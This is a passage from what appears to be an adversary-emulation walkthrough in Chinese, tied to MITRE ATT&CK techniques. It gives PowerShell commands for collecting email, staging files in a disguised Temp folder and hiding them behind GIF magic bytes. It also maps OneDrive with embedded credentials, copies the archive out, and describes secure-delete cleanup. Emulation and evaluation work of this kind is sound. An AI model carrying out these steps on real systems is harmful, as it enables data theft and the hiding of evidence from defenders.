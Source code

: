 ### Step 17 – 收集
攻擊者在收集（T1005）和暫存（T1074）感興趣的文件之前，會先收集存儲在本地電子郵件客戶端中的電子郵件（T1114）。暫存文件將被壓縮（T1002），並帶有GIF文件類型的魔術字節（T1027）。

#### 17.A 切换到低权限会话
```powershell=
#載入收集電子郵件的模組：
PS 1> loadmoduleforce /home/kali/payloads/day2/stepSeventeen_email.ps1
收集電子郵件：
PS 1> psemail
```
#### 17.B 切换到新的高權限會話中
```powershell=
#在臨時目錄中創建新目錄：
PS 2> New-Item -Path "C:\Windows\Temp\" -Name "WindowsParentalControlMigration" -ItemType "directory"
#將感興趣的文件複製到新目錄：
PS 2> Copy-Item "C:\Users\john\Documents\MITRE-ATTACK-EVALS.HTML" -Destination "C:\Windows\Temp\WindowsParentalControlMigration"

```

#### 17.C

```powershell=
#載入壓縮文件的模組：
PS 2> loadmoduleforce /home/kali/payloads/day2/stepSeventeen_zip.ps1
#將目錄壓縮為帶有特定魔術字節的文件：
PS 2> zip C:\Windows\Temp\WindowsParentalControlMigration.tmp C:\Windows\Temp\WindowsParentalControlMigration

```

### Step 18 – 渗出
攻擊者將本地驅動器映射到在線 Web 服務帳戶（T1102），然後將先前暫存的數據提取到此存儲庫（T1048）。

#### 將 OneDrive 映射為網路驅動器
```powershell=
#net use 命令用於將 OneDrive 映射到本地驅動器 Y:。
PS 2> net use y: https://d.docs.live.net/E3_________C93 /user:apt.local@outlook.com "D{IFt&______-@XV"
```
#### 將暫存的數據複製到 OneDrive
```powershell=
#使用 Copy-Item 命令將之前暫存的壓縮文件從本地臨時目錄複製到 OneDrive 映射的驅動器上。
PS 2> Copy-Item "C:\Windows\Temp\WindowsParentalControlMigration.tmp" -Destination "Y:\WindowsParentalControlMigration.tmp"

```

### Step 19 - 清理
攻擊者通過在 powershell.exe 中反射性加載並執行 Sdelete 二進制文件（T1055），刪除與該訪問相關的各種文件（T1107）。
